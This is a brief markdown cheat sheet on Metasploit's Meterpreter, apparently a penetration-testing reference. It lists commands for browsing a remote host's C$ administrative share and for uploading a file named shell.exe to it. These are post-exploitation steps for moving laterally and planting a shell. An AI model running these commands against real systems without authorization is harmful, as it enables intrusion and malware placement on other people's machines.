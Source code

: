 # Metasploit

## 01 - List Files and Directories

```
meterpreter > ls \\\\<IP>\\c$

meterpreter > ls //<IP>/c$
```

## 02 - Upload Files

`meterpreter > upload /path/to/shell.exe \\\\<IP>\\c$\\shell.exe`